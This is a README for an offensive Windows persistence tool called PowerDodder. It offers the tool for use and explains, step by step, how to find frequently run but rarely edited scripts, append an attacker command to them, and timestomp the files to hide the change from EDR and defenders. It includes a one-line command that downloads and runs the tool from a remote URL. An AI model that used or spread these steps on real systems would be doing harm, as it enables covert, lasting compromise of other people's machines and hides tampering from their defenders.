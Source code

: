 # PowerDodder

**PowerDodder** is a post-exploitation persistence utility designed to stealthily embed execution commands into existing script files on the host. By leveraging files that are frequently accessed but rarely modified, it targets high-likelihood execution vectors with minimal detection risk.

## 🧠 Background

Traditional persistence methods (e.g., Registry `Run` keys, scheduled tasks) are often monitored or flagged by EDRs and blue teams. PowerDodder takes a novel approach:

- It hunts for existing script files on disk (`.ps1`, `.bat`,`.cmd`, `.vbs`, `.js`).
- It prioritizes those that:
  - **Have been accessed recently** (indicating they're being executed often).
  - **Haven’t been modified recently** (suggesting they're not actively edited).
- It lets you choose the target script(s), and then it appends a payload-spawning command using a context-appropriate syntax (PowerShell, VBScript, JScript, etc.).

This allows for low-noise persistence, hitching a ride on legitimate execution paths.

## 🛠️ Usage

### 1. Load the script

```
iex (iwr https://raw.githubusercontent.com/itaymigdal/PowerDodder/refs/heads/main/PowerDodder.ps1) 
```

### 2. Run a Hunt

Scans predefined folders (`C:\Users\`, `C:\Program Files\`, `C:\Program Files (x86)\`, `C:\ProgramData\`) for promising script files.
```
DodderHunt
```
You can also target a specific folder:
```
DodderHunt -FolderPath "C:\CustomPath"
```
**Optional params:**

-LastAccessTimeThreshold: default is 7 days.

-LastModifyTimeThreshold: default is 3 months.

You can set different thresholds like that:
```
$DifferentModifyThreshold = (get-date).AddMonths(-4)
$DifferentAccessThreshold = (get-date).AddDays(-20)
DodderHunt -LastAccessTimeThreshold $DifferentAccessThreshold -LastModifyTimeThreshold $DifferentModifyThreshold
```

### 3. Infect a script
```
DodderInfect -ID <CandidateID> -PersistCommand <ExecutionCommand>
```
This will:
- Create the appended line of your command based on the relevant template.
- Modify the file by appending the persistence command.
- Restore the original script LastWriteTime attribute to hide the modification.
- Move the infected script to the Infected list.

### 4. Helpers

- DodderShow: Lists found candidates and already-infected files.
- DodderClearCandidates: Empties the current candidates list (useful before rescanning).


## 📚 Name Origin
The name Dodder comes from a parasitic vine that attaches itself to host plants, slowly feeding off them without killing them — much like this tool latches onto host scripts for persistent execution.

